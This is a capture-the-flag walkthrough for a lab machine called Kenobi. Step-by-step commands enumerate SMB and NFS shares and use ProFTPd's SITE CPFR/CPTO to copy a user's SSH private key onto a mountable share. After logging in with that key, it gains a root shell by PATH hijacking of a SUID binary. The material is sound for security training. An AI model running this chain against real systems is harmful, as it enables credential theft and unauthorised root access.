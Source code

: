 # Kenobi

Tasks:

1. Deploy the vulnerable machine:
   1. Do usual nmap scan with `nmap -sV ip` and complete the task.
2. Enumerating samba for shares:
   1. Do scan with `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse ip`
   2. Connect to anonymous smb share with no password `smbclient //ip/anonymous`&#x20;
   3. Get all files from share recursively using `smbget -R smb:///anonymous` .You can see there's log.txt which gives information about ftp port number and also kenobi's ssh private key location.
   4. From nmap output port 111 is open and rpcbind running behind it. Use `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount ip` to enumerate mount - /var is available as mount through network file system.
3.  Gain initial access with ProFTPd:

    1. Use `nc ip 21` to connect to ftp. ProFTPd version used is 1.3.5. Use searchsploit find exploits  for the ProFTPd server used. &#x20;
    2. connect to ftp server and type `SITE CPFR /home/kenobi/.ssh/id_rsa`  and `SITE CPTO /var/tmp/id_rsa` to copy ssh private key to nfs share.
    3. Mount NFS share to your machine , copy ssh private key from /var/tmp to current working directory and ssh into kenobi using&#x20;
       1. _`mkdir /mnt/kenobiNFS`_\
          ``_`mount machine_ip:/var /mnt/kenobiNFS`_\
          ``_`ls -la /mnt/kenobiNFS`_
       2. _`cp /mnt/kenobiNFS/tmp/id_rsa . `_
       3. _`ssh -i id_rsa kenobi@ip`_
    4. _`cat `_`/home/kenobi/user.txt` and submit user flag&#x20;

    __
4. Privilege Escalation with Path Variable Manipulation:
   1. Find binaries with suid bit set using _`find / -perm -u=s -type f 2>/dev/null` _
   2. _/usr/bin/menu seems looks out of ordinary_
   3. _Using strings on menu , we find that curl is called without full path ,So we can copy /bin/sh as curl to tmp path and export tmp path using `echo /bin/sh > /tmp/curl`  , `chmod 777 /tmp/curl` , `export PATH=/tmp:$PATH` _
   4. _Now run /usr/bin/menu and select option 1 , you will get root shell._
   5. _`cat /root/root.txt` and submit root flag._

__

References:

1. [https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
